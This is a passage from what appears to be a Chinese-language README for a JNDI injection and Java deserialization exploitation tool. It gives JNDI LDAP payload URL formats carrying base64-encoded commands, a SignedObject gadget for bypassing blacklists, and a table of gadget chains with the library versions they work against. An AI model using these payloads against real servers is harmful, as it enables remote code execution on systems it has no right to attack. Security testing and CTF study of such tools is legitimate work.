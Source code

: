 ```
jndi:ldap://127.0.0.1:1389/Deserialization/C3P04/command/Base64/[base64_encoded_cmd]
```

---

## 1.4 SignedObject 二次反序列化 Gadget

用来进行某些场景的绕过（常见如 TemplatesImpl 黑名单，CTF 中常出现的 CC 无数组加黑名单等）

利用链需要调用 SignedObject 的 getObject 方法，因此需要可以调用任意方法、或调用指定类 getter 方法的触发点；

大概包含如下几种可用的常见调用链：

1. InvokerTransformer 调用任意方法（依赖 CC）
2. BeanComparator 调用 getter 方法（依赖 CB）
3. BasicPropertyAccessor$BasicGetter 调用 getter 方法(依赖 Hibernate)
4. ToStringBean 调用全部 getter 方法（依赖 Rome）
5. MethodInvokeTypeProvider 反射调用任意方法（依赖 spring-core）
6. MemberBox 反射调用任意方法（依赖 rhino）

* `cc`,`cc4`,`cb`,`hibernate`,`rome`,`rhino`,`spring`

* 利用方式：
* SignedObjectPayload -> 'CC:CommonsCollections6:b3BlbiAtYSBDYWxjdWxhdG9yLmFwcA==:1:10000' 最后两个参数是反序列化的类型

```
jndi:ldap://127.0.0.1:1389/Deserialization/SignedObject/command/Base64/CC:commonscollections6:[base64_encoded_cmd]:1::10000)
```

---

## 1.5 Deserialization路由

| Gadget                                      | 依赖                                                         | ps                   |
| :------------------------------------------ | :----------------------------------------------------------- | -------------------- |
| AspectJWeaver                               | aspectjweaver:1.9.2<br/>commons-collections:3.2.2            |                      |
| AspectJWeaver2                              | org.aspectj:aspectjweaver:1.9.2<br/>commons-collections:commons-collections:3.2.2 |                      |
| BeanShell1                                  | org.beanshell:bsh:2.0b5                                      |                      |
| C3P0                                        | com.mchange:c3p0:0.9.5.2<br/>mchange-commons-java:0.2.11     |                      |
| C3P02                                       | com.mchange:c3p0:0.9.5.2<br/>com.mchange:mchange-commons-java:0.2.11<br/>org.apache:tomcat:8.5.35 |                      |
| C3P03                                       | com.mchange:c3p0:0.9.5.2<br/>com.mchange:mchange-commons-java:0.2.11<br/>org.apache:tomcat:8.5.35<br/>org.codehaus.groovy:groovy:2.3.9 |                      |
| C3P04                                       | com.mchange:c3p0:0.9.5.2<br/>com.mchange:mchange-commons-java:0.2.11<br/>org.apache:tomcat:8.5.35<br/>org.yaml:snakeyaml:1.30 |                      |
| C3P092                                      | com.mchange:c3p0:0.9.2-pre2-RELEASE ~ 0.9.5-pre8<br/>com.mchange:mchange-commons-java:0.2.11 |                      |
| Click1                                      | org.apache.click:click-nodeps:2.3.0<br/>javax.servlet:javax.servlet-api:3.1.0 |                      |
| Clojure                                     | org.clojure:clojure:1.8.0                                    |                      |
| CommonsBeanutils1                           | commons-beanutils:commons-beanutils:1.9.2<br/>commons-collections:commons-collections:3.1<br/>commons-logging:commons-logging:1.2 |                      |
| CommonsBeanutils1Jdbc                       |                                                              | 高版本Bypass         |
| CommonsBeanutils2                           | commons-beanutils:commons-beanutils:1.9.2                    | 可打shiro            |
| CommonsBeanutils2Jdbc                       |                                                              | 高版本Bypass         |
| CommonsBeanutils2NOCC                       | commons-beanutils:commons-beanutils:1.8.3<br/>commons-logging:commons-logging:1.2 |                      |
| CommonsBeanutils1183NOCC                    | commons-beanutils:commons-beanutils:1.8.3                    |                      |
| CommonsBeanutilsAttrCompare                 | commons-beanutils:commons-beanutils:1.9.2                    |                      |

[//]: # (进行加载并实例化。命令使用 `LF-` 开头，后面跟指定自定义类字节码文件的绝对路径，程序会尝试自动缩减类字节码的大小。)